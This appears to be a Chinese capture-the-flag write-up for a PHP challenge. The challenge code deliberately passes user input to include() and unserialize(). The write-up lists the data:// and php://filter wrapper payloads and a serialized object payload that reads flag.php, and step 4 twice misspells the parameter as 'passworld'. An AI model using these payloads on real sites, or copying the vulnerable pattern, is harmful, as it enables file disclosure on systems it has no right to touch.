



# 题目  
```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```  
- file_get_contents函数会将整个文件的内容读到一个字符串中
- preg_match用于查找是否用匹配的字符传，这里在文件中找是否又flag
- includ会在此处插入文件的内容  

# WP

1. 首先要text不为空且是指定内容才可以进行下一步，因为file_get_contents函数要传入一个文件的路径，这里用data伪协议给text传参  
```
?text=data://text/plain,welcome to the zjctf
```  
  
2. 然后给file传值，如果file里面包含flag，就会直接退出，后面提示，file应该是useless.php,说明本地有一个useless.php的文件，并且需要插入这个地方，然后传入了，但是没什么用，得用伪协议  
```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

3. 得到一下内容，用base64解密
```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```  
解码后得到如下  
```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```  

4. 把Flag序列化后传值给passworld，序列化后为O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
passworld=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
传入参数为  
```
text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
